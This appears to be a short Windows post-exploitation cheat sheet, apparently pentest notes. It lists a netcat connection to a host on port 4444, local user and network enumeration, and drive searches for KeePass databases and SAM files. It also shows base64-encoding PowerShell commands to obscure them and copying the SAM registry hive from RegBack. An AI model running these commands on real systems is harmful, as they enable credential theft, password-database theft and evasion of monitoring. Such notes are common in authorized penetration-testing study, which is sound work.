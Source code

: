 - `nc 192.168.50.220 4444`
- `whoami`
- `whoami /groups`
  `Get-LocalUser`
  `Get-LocalUser -Name "username" | Select-Object \*`
  `Get-LocalGroup`
  `Get-LocalGroupMember Administrators`
  `systeminfo`
  `ipconfig /all`
  `route print`
  `netstat -ano`

Installed Applications:

32 Bit:
`Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`

64 Bit:
`Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname`

`Get-Process`

`Get-ChildItem -Path C:\ -Include \*.kdbx -File -Recurse -ErrorAction SilentlyContinue`

`Get-ChildItem -Path C:\ -Include SAM -File -Recurse -ErrorAction SilentlyContinue`

`Get-ChildItem -Path C:\ -Include _.txt,_.ini -File -Recurse -ErrorAction SilentlyContinue | Select-String -Pattern "YourSearchString"`

`$command = "Get-Process"`
`$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)`
`$encodedCommand = [Convert]::ToBase64String($bytes)`
`powershell.exe -EncodedCommand $encodedCommand`

`Copy-Item -Path "$env:SystemRoot\System32\Config\RegBack\SAM" -Destination "C:\Path\To\NewLocation\SAM"`
